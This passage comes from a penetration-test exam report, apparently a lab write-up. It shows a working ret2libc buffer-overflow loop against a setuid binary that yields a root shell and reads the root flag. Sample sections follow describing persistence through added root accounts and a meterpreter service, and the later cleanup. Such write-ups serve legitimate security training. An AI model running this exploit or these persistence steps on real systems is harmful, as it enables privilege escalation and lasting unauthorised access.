$ while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Floating point exception (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Trace/breakpoint trap (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Syntax: Z
         $$D$
              <input string>
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Illegal instruction (core dumped)
Segmentation fault (core dumped)
# id 
id 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root
# ls -l /root
ls -l /root
total 4
-r-------- 1 root root 33 Apr 21  2017 root.txt
```

We find the root flag in the root folder:



**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
